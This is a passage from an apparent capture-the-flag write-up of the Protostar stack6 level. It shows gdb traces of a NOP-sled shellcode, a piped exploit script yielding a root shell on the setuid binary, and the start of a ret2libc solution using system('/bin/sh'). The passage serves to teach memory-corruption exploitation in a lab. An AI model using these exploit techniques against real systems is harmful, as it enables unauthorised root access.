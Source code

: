 ``` shell
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff809:     push   $0xb
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff809 in ?? ()
(gdb) c
Continuing.
Executing new program: /bin/dash
```

I remove **int3** from the script, and BUMPP, we successfully deal with the return address restriction in this level.

```shell
user@protostar:~$ (python script.py ; cat) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT���������������������������������������������������������������������������������������������������������j
                                            X�Rh//shh/bin��1�̀
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

### Solution 2

Since this solution uses `Ret2libc`. I will start with a scenario that demonstrates **system** function to help grasp the concept more easily.

``` c
#include <stdlib.h>

void main() {
  system("/bin/sh");
}
```

Compile this C code and disassemble it using `gdb`:

``` shell
user@protostar:~$ gcc sys.c -o sys
user@protostar:~$ gdb ./sys
.....
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x10
0x080483cd <main+9>:    mov    DWORD PTR [esp],0x80484a0
0x080483d4 <main+16>:   call   0x80482ec <system@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
(gdb) x/s 0x80484a0
0x80484a0:       "/bin/sh"
```
